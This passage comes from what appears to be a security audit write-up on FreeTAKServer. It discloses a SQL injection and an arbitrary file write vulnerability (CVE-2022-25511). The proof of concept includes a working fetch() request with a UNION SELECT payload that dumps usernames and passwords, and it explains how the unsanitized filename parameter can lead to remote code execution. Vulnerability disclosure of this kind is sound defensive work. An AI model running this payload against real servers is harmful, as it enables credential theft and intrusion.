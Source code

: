 
##### Proof of Concept

Posting the follwing snippet into a web browsers console will trigger the SQL Injection and return the name and password for each user in the SystemUsers table.
```
fetch("http://atak.FreeTAKServer.com:19023/AuthenticateUser?username=abc\" UNION SELECT (SELECT group_concat(name||':'||password) FROM SystemUser),'b','c','PASSWORD','d','e'--&password=PASSWORD", {
    "headers": {
      "accept": "*/*",
      "accept-language": "en-US,en;q=0.9",
      "authorization": "Bearer ValidAPIKey",
      "content-type": "application/json"
    },
    "mode": "cors"
  });
```

Will return the following response:  
![SQL Injection Response, Network Tab](assets/images/posts/2022/02/securityaudit-of-an-open-source-project-takserver/sqli_response.jpg)  

Which clearly shows the database results in clear-text.

### Arbitrary File Write (Remote Code Execution)

In the TAK EcoSystem there exists a file sharing function for mission essential items called DataPackages, these can be shared either by Peer-to-Peer transmission, or saved on the TAK-Server for later downloading and sharing. 

During the analysis we encountered two specific endpoints in the FreeTAKServer software that can be abused as a Arbitrary File Write, which inturn can be leveraged into Remote Code Execution through either a Cron job (depending on the accesslevel for the user running FTS) or through the Flask Templating functions.

##### \[CVE-2022-25511\] User Interface Datapackage

From the WebUI it is possible to (once logged in) upload DataPackages directly to the server so that it is possible to download the zipped files on the EUD in the field.
The route `/DataPackageTable` takes an argument `?filename=` which is not sanitized for either the Path or the Filename outside of the UI, which creates the issues that you can place any file, anywhere on the system. Albeit going this route will add some junk XML data into the end of the file, this making it extremely hard to achieve code execution through Python or Flask Templating.
This was achieved using a transparent proxy to catch and modify the webrequest, but can also be achieved using something like [Curl](https://curl.se/) 
